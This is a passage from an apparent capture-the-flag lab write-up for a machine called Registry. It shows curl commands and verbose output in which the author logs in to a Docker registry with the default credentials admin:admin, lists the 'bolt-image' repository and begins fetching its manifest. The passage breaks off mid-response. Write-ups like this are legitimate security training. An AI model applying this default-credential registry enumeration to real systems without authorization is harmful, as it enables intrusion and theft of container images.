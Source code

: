 > Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Tue, 24 Mar 2020 17:17:19 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 40
< Connection: keep-alive
< Docker-Distribution-Api-Version: registry/2.0
< X-Content-Type-Options: nosniff
< Strict-Transport-Security: max-age=63072000; includeSubdomains
< X-Frame-Options: DENY
< X-Content-Type-Options: nosniff
< 
{"name":"bolt-image","tags":["latest"]}
* Connection #0 to host docker.registry.htb left intact
```

As the Repository and Tags seems to be *bolt-image* and *latest*, let's try pulling a list of Blobs and see what's in there.

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ curl -v -X GET -k https://docker.registry.htb/v2/bolt-image/manifests/latest --basic --user admin:admin
Note: Unnecessary use of -X or --request, GET is already inferred.
*   Trying 10.10.10.159:443...
* TCP_NODELAY set
* Connected to docker.registry.htb (10.10.10.159) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/ssl/certs/ca-certificates.crt
  CApath: /etc/ssl/certs
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server accepted to use http/1.1
* Server certificate:
*  subject: CN=docker.registry.htb
*  start date: May  6 21:14:35 2019 GMT
*  expire date: May  3 21:14:35 2029 GMT
*  issuer: CN=Registry
*  SSL certificate verify result: unable to get local issuer certificate (20), continuing anyway.
* Server auth using Basic with user 'admin'
> GET /v2/bolt-image/manifests/latest HTTP/1.1
> Host: docker.registry.htb
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Tue, 24 Mar 2020 17:16:13 GMT
< Content-Type: application/vnd.docker.distribution.manifest.v1+prettyjws
< Content-Length: 7439